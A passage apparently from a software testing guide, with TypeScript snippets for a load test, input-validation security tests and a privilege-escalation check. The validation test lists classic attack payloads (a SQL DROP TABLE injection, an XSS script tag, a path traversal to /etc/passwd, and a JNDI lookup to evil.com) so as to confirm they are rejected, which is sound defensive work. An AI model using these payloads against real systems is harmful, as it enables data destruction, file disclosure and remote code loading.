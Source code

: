 ### Load Testing

```typescript
// Sustained load test
const loadTestDuration = 5000; // 5 seconds
const requestInterval = 50; // Request every 50ms

const startTime = Date.now();
let requestCount = 0;

while (Date.now() - startTime < loadTestDuration) {
  await performOperation();
  requestCount++;
  await new Promise(resolve => setTimeout(resolve, requestInterval));
}

const requestsPerSecond = (requestCount / loadTestDuration) * 1000;
expect(requestsPerSecond).toBeGreaterThan(MIN_THROUGHPUT);
```

## Security Testing

### Input Validation Tests

```typescript
const maliciousInputs = [
  "admin'; DROP TABLE users; --",
  '<script>alert("xss")</script>',
  '../../../etc/passwd',
  '${jndi:ldap://evil.com/a}'
];

for (const input of maliciousInputs) {
  const result = await component.processInput(input);
  expect(result.success).toBe(false);
  expect(result.error).not.toContain(input); // Don't echo malicious input
}
```

### Authentication/Authorization Tests

```typescript
// Test privilege escalation
const user = { role: 'user' };
const adminAction = 'delete:all_users';

const canPerform = await auth.canUserAction(user, adminAction);
expect(canPerform).toBe(false);
```

### Data Leakage Prevention
